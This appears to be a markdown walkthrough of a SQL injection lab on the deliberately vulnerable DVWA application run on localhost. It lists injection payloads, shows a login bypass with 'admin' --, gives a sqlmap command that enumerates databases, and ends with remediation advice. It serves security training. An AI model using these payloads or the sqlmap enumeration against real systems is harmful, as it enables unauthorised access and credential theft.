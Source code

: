 `DVWA-SQLi-Walkthrough.md` – SQL injection test case with payloads and output

### DVWA-SQLi-Walkthrough.md
```markdown
# 🔍 DVWA SQL Injection Walkthrough

## 🔧 Environment
- **Application**: Damn Vulnerable Web Application (DVWA)
- **Security Level**: Low
- **Tool**: Burp Suite, Firefox, SQLMap (optional)

## 🎯 Objective
Exploit SQL Injection in the login page and extract user credentials.

---

## 🧪 Steps

### 1. Navigate to the SQL Injection module in DVWA:
```
http://localhost/dvwa/vulnerabilities/sqli/
```

### 2. Interact with the input field:
Input: `1' OR '1'='1`

Submit → Observe that all users are displayed — indicating **SQLi exists**.

---

## 🧰 Useful Payloads
```sql
1' OR '1'='1 -- 
1' OR '1'='1' #
' OR 1=1--
admin' --
' OR '' = '
```

---

## 🔐 Authentication Bypass Example
Input in login:
- Username: `admin' -- `
- Password: `anything`

Login successful. This proves SQLi can bypass login authentication.

---

## 🧪 Automate with SQLMap
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xyz" --dbs
```

- `--dbs`: enumerate all databases
- `--tables -D dvwa`: list all tables in DVWA database

---

## ✅ Remediation
- Use prepared statements (e.g., PDO in PHP)
- Validate and sanitize inputs
- Employ WAF and least-privilege database roles
```
